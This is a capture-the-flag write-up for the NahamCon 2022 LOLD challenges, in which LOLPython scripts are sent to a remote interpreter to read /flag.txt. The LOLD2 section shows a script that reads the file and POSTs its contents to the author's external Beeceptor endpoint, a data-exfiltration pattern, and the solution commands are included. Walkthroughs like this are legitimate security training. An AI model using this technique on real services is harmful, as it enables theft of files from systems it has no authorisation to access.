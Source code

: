 ```yaml
---
title: NahamCon CTF 2022 - LOLD 1, 2, 3 Writeup
published: true
---
```


With the warmup over, lets move on to the LOLD scripting challenges.  There's 3 of them, with 1 being easy, 2 medium and 3 hard, and they all use an abomination of a language....

# LOLD

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 30710

A quick google for LOLPython and.... [oh dear god what is this](http://www.dalkescientific.com/writings/diary/archive/2007/06/01/lolpython.html).  Someone took LOLCode and Python and combined them.  And now I need to learn it.

So for this challenge it looks like we need to write a script to read the flag and output the value.  Thankfully the bottom example in that link has all we need for reading a file.  So stealing that we get the following LOLPython saved as get_flag.lol:

```
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
VISIBLE S
```

I'm so sorry, for some reason my syntax highlighter doesn't support LOLPython.  I'll file a bug.  So for an explanation:

- The first line opens the file "flag.txt" and stores the handle in `F`.  To break this line down further:
  - `F` is the variable
  - `CAN HAS` is `=`
  - `open` is the python `open` function 
  - `WIT` is `(`
  - "flag.txt" is the file name
  - `!` is `)`
  - So the line when converted reads `F = open("flag.txt)`
  - You can download the attached lolpython.py file to see other fun things you can do in the language, but you're also welcome to just take my word for it
- Line 2 calls read on F (I'll skip the bits we've already covered):
  - `OWN` is `.`
  - `THING` is `()`.  You could also use `WIT!` but I guess that doesn't make any sense in LOL speak.
- Line 3 prints the result.  `VISIBLE` is just `PRINT`.

So now we can just send that to the nc server:

```bash
cat get_flag.lol | nc challenge.nahamcon.com 30710
```

And with that we get the flag `flag{c1146bd8b0079fd75f857003afe2cc49}`


# LOLD2
> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt!
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 31263

The pain continues.  The trick with this one is that the interpreter doesn't send any output back to us, so we can't just read the flag - we need to send it somewhere.  Thankfully services such as [Beeceptor](https://beeceptor.com/) make this pretty painless.  Create an endpoint (I used blarg.free.beeceptor.com) and it'll sit there listening for requests.

As we can no longer see any errors from the remote interpreter we also need to get this nightmare running locally.  Install Python2, then download the latest [ply](http://www.dabeaz.com/ply/) and copy the `ply` folder into your code base.  Then create a flag.txt file so you can test.  It'll look something like this:

![lold2 file structure]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-structure.png)

We can then use the following code to grab the flag contents and post it to our beeceptor link.

```
GIMME httplib

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

OK strap in, here we go:
- `GIMME httplib` becomes `import httplib`
- `H CAN HAS INVISIBLE BUCKET` becomes `H = {}`
- `H LET THE "Content-type" OK CAN HAS "text/plain"` becomes `H["Content-type"] = "text/plain"`
- A bit of file opening and reading we've already covered
-  `C CAN HAS httplib OWN HTTPConnection WIT U!` becomes `C = httplib.HTTPConnection(U)`
- `C OWN request WIT "POST" AND "/test" AND S AND H!` becomes `C.request("POST", "/test", S, H)`
- `R CAN HAS C OWN getresponse THING` becomes `R = C.getresponse()`

So in short we read the file contents, then post it to `http://blarg.free.beeceptor.com:/test`.

This then gives us the flag in beeceptor:

![lold2 result]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-result.png)